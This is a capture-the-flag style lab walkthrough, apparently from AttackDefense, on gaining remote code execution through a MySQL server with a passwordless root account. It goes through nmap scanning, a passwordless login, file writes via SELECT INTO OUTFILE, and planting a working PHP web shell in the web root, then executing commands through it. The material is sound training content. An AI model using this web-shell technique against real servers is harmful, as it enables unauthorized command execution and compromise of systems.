












![ref1]
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">RCE via MySQL </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://attackdefense.com/challengedetails?cid=2127>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">OWASP Top 10 : Security Misconfiguration </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Step 1:** Identifying IP address of the target machine **Command:** ip addr 

The IP address of the attacker machine is 192.173.248.2. The target machine is located at the IP address 192.173.248.3 

**Step 2:** Identify the open ports on the target machine.  ![ref2]**Command:** nmap 192.173.248.3 

Port 80 and 3306 are open on the target machine.  

**Step 3:** Accessing the web application in Mozilla Firefox.  

**Step 4:** Click on the wappalyzer plugin from the address bar, ![ref2]

The web application is based on PHP.  

**Step 5:** Checking the nmap scripts available for mysql service.  **Command:** ls -l /usr/share/nmap/scripts | grep mysql  

A script is available to check if MySQL service is configured without password or not. ![ref2]**Step 6:** Using the nmap script to check for empty password 

**Command:** nmap --script mysql-empty-password -p 3306 192.173.248.3 

![ref1]

MySQL root user does not have any password. **Step 7:** Logging into MySQL service.  **Command:** mysql -u root -h 192.173.248.3 

**Step 8:** Writing a file in /tmp directory.  

**MySQL Query:** select 'Hello world' into outfile '/tmp/temp' from mysql.user limit 1; ![ref2]

Since a file can be created, it means that MySQL service can write into arbitrary directories provided the directory is world writable.  

**Step 9:** Writing a PHP web shell into the web root directory.  

**MySQL Query:** select '<?php $output=shell\_exec($\_GET["cmd"]);echo "<pre>".$output."</pre>"?>' into outfile '/var/www/html/shell.php' from mysql.user limit 1; 

**Step 10:** Access the PHP web shell and pass the command to be executed in "cmd" parameter.  **Command:** id 

**URL:** http://192.173.248.3/shell.php?cmd=id 

**References:**  

1\. Nmap MySQL script: mysql-empty-password ![ref2]

(<https://nmap.org/nsedoc/scripts/mysql-empty-password.html>)  

[ref1]: Aspose.Words.5dc03f19-7e70-4624-a5e1-9fe9d72d3ed1.002.png
[ref2]: Aspose.Words.5dc03f19-7e70-4624-a5e1-9fe9d72d3ed1.004.png
